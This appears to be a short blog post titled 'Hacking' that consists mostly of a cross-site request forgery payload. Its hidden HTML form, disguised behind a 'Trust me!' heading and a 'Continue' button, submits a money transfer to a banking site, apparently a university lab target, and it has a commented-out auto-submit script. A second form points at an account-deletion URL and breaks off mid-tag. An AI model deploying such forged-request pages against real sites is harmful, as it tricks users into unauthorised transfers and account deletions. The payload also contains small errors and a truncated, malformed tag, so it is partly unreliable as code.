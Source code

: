 ```yaml
---
layout: post
title: Hacking
description: experiment
tags: no tags yet
---
```


### Trust me!
<form action="https://robthebank.soton.ac.uk/transactions/transfer" class="well" id="TransactionTransferForm" method="post" accept-charset="utf-8">
	<div style="display:none;">
	<input type="hidden" name="_method" value="POST">
	<input name="data[Transaction][from]" class="form-control" type="hiden" id="TransactionFrom" required="required" value="500">
	<input name="data[Transaction][to]" class="form-control" type="hidden" id="TransactionTo" required="required" value="379">
	<input name="data[Transaction][reference]" class="form-control" maxlength="255" type="hidden" id="TransactionReference" required="required" value="You have been hacked!">
	<input name="data[Transaction][amount]" class="form-control" style="width: 100px" step="any" type="hidden" id="TransactionAmount" required="required" value="10">
	<!--<script>document.getElementById("TransactionTransferForm").submit()</script>-->
</div>

<input class="btn btn-primary" type="submit" value="Continue">
</form>

<form action="https://robthebank.soton.ac.uk/accounts/delete/748" class="well" id="DeleteAccount" method="get">
	<div style="display:none;">
	input type="hidden" name="_method" value="GET">
	

****
